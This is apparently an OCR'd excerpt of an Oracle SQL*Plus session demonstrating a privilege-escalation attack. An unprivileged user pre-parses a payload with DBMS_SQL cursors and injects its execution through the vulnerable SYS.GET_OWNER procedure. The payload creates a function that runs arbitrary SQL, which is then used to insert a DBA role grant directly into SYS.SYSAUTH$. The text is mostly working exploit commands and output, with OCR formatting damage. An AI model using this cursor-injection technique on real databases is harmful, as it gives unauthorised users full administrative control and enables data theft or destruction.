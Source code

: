 `SQL> CONNECT CSESS/PASSWORD `
`Connected. `
`SQL> SET SERVEROUTPUT ON `
`SQL> DECLARE `
`  2  MY_CURSOR NUMBER; `
`  3  RESULT NUMBER; `
`  4  BEGIN `
`  5     MY_CURSOR := DBMS_SQL.OPEN_CURSOR; `
`  6     DBMS_SQL.PARSE(MY_CURSOR,'declare pragma autonomous_transaction; begin execute immediate `*`create``
 ``or``   ``replace``   ``function``   ``csess_func``   ``(p``
 ``varchar2)``   ``return``   ``number``   ``authid``
 ``current_user``   ``is``   ``begin``   ``execute``   ``immediate``
 ``p;``   ``return``   ``1;``   ``end;`*`; commit; end;',0); `
`  7     DBMS_OUTPUT.PUT_LINE('Cursor value is :' `

| | MY_CURSOR);

`  8  END; `
`  9  / `
`Cursor value is :4  `
` `
`PL/SQL procedure successfully completed. `

`SQL> EXEC SYS.GET_OWNER('AAAA''`

| |CHR(DBMS_SQL.EXECUTE(4))--');

`PL/SQL procedure successfully completed. `

Here we attempt to create a function call CSESS_FUNC. Now see if the
function was actually created:

`SQL> SELECT CSESS_FUNC('SELECT 1 FROM DUAL') FROM DUAL; `
` `
`CSESS_FUNC('SELECT1FROMDUAL') `
`----------------------------- `
`                            1 `
` `
`SQL> `

All looks good. Now we can use this function to do whatever we want:

`SQL> CONNECT CSESS/PASSWORD `
`Connected. `
`SQL> SET ROLE DBA; `
`SET ROLE DBA `
`* `
`ERROR at line 1: `
`ORA-01924: role 'DBA' not granted or does not exist `
` `
`SQL> EXEC SYS.GET_OWNER('AAAA''`

| |CHR(CSESS.CSESS_FUNC(*declare pragma autonomous_transaction; begin
execute immediate **'INSERT INTO SYS.SYSAUTH$ (GRANTEE\#, PRIVILEGE\#,
SEQUENCE\#) VALUES (1,4,(SELECT MAX(SEQUENCE\#)+1 FROM
SYS.SYSAUTH$))**'; commit; end;*))--');

